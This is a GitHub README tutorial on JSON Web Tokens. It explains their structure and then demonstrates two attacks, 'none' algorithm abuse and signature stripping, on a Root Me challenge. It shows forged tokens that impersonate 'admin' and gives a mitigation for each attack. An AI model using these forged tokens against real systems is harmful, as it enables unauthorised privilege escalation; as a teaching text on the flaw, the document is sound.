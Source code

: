 # Projet-JWT
Understanding, bypass and securing of Json Web Tokens (JWT)

* ### Prerequisites
Json Web Tokens allow the secure exchange of tokens between several parties. The security of the exchange translates into the verification of the integrity and authenticity of the data. It is carried out using multiple algorithms.

A token consists of three parts :
- A header, used to describe the token.
- A payload, which represents the information embedded in the token.
- A digital signature.

Example :
<br/> Header : {"alg": "HS256", "typ": "JWT"}
<br/> Payload : {"name":"JulienFink", "iat":1533777438}
<br/> Signature : 4V7KzBemrVji_kCyzGO3lQMZlBuVxryF3YhmMIr4kWI

The signature is crafted using a secret - "Azerty123" in our case.

The "header", "payload" and "signature" parts are then encoded using base64url.

Complete JWT :
```diff
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoiSnVsaWVuRmluayIsImlhdCI6MTUzMzc3NzQzOH0.KJFzGjs_75Q56mY9QXqpEKU-wE2o3ufF3ZxfIUaexwI
```

Useful links for an overall understanding :
<br/> https://fr.wikipedia.org/wiki/JSON_Web_Token
<br/> https://jwt.io/
<br/> https://www.base64url.com/

* ### Absusing 'none' algorithm

Let us assume you don't have an account on a website, you don't want to create one and you decide to log in as a guest.
A JWT is assigned to your newly created session:

```diff
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJ1c2VybmFtZSI6Imd1ZXN0In0.
{"typ":"JWT","alg":"none"}.{"username":"guest"}.
```

eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJ1c2VybmFtZSI6Imd1ZXN0In0.
<br/> {"typ":"JWT","alg":"none"}.{"username":"guest"}.

What would happen if we decided to change the value of the username to "admin" ? We would get a new valid JWT and thus get access to the admin section.

```diff
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJ1c2VybmFtZSI6ImFkbWluIn0.
{"typ":"JWT","alg":"none"}.{"username":"admin"}.
```

```diff
+ To avoid this type of Pr0bL3m, do not use 'none' algorithm.
```

* ### Signature stripping attack

What if we decided to change the algorithm to 'none' in the header part in order to exploit the previous vulnerability ? Let us try the following on a Root Me challenge...

```diff
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6Imd1ZXN0In0.OnuZnYMdetcg7AWGV6WURn8CFSfas6AQej4V9M13nsk
{"typ":"JWT","alg":"HS256"}.{"username":"guest"}.'a signature crafted using a secret unknown to us'
```

We can craft our own JWT :
```diff
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJ1c2VybmFtZSI6ImFkbWluIn0.
{"typ":"JWT","alg":"none"}.{"username":"admin"}.
```

Works !

![JWT blur](https://user-images.githubusercontent.com/64968597/135341742-d1aae0d8-deaa-4a66-9202-85529e982067.png)
<br/> https://www.root-me.org/fr/Challenges/Web-Serveur/JSON-Web-Token-JWT-Introduction

```diff
+ To avoid this type of Pr0bL3m, use a whitelist of allowed algorithms.
+ ['HS256']
- ['None']
```

* ### Brute forcing HS256 secret key

* ### Substitution attack for RS256 algorithm
